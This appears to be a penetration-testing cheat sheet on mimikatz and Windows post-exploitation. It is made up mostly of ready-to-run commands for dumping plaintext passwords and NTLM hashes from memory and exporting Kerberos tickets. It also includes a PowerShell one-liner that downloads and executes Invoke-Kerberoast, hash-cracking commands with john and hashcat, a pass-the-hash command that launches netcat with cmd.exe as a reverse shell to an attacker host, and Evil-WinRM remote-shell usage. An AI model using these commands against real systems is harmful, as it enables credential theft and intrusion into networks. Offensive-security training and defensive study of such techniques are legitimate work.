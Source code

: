 ```yaml
---
sidebar_position: 5
---
```


# mimikatz

mimikatz is a powerful post-exploitation tool for extracting plaintext passwords, hashes, PIN codes, and Kerberos tickets from memory on Windows systems.

- [Latest trunk release](https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210810-2/mimikatz_trunk.7z)
- [2.2.1 trunk (mirror)](https://github.com/caday00/mimikatz2.1.1/raw/master/mimikatz_trunk.zip)
- [2.2.1 trunk (alt)](https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz_trunk.zip)

## Basic Commands

- **Check domain users:**

  ```cmd
  net user /domain
  ```

- **Check privilege:**

  ```
  privilege::debug
  ```

- **Dump credentials (passwords, NTLM hashes):**

  ```
  sekurlsa::logonpasswords
  ```

- **List Kerberos tickets:**
  ```
  sekurlsa::tickets
  ```

## Kerberoasting (Extracting Kerberos Tickets)

- **Export tickets for offline cracking:**

  ```
  kerberos::list /export
  ```

  > If this doesn't work, use PowerShell alternatives:

  - [How to Kerberoast like a boss (Pentest Partners)](https://www.pentestpartners.com/security-blog/how-to-kerberoast-like-a-boss/)

  ```powershell
  powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1') ; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"
  john --format=krb5tgs kerb-Hash0.txt --wordlist=/usr/share/wordlists/rockyou.txt
  ```

- **Other tools:**

  - [kerberoast (Python)](https://github.com/nidem/kerberoast)
  - [tgsrepcrack.py](https://raw.githubusercontent.com/nidem/kerberoast/master/tgsrepcrack.py)
  - [kirbi2hashcat.py](https://raw.githubusercontent.com/jarilaos/kirbi2hashcat/master/kirbi2hashcat.py)
  - [kirbi2john.py](https://raw.githubusercontent.com/nidem/kerberoast/master/kirbi2john.py)

  ```bash
  python tgsrepcrack.py /usr/share/wordlists/rockyou.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
  hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
  ```

## Pass-the-Hash & Command Execution

- **Pass-the-Hash and run a command:**

  ```
  sekurlsa::pth /user:username /domain:domain.com /ntlm:7c... /run:"\\192.168.119.1\a\bin\nc.exe -nv 192.168.119.1 443 -e cmd.exe"
  ```

- **Evil-WinRM for remote shell:**
  ```bash
  rbenv shell 2.7.4 ; gem install evil-winrm
  evil-winrm -u user -p pass -i 10.11.1.1
  ```

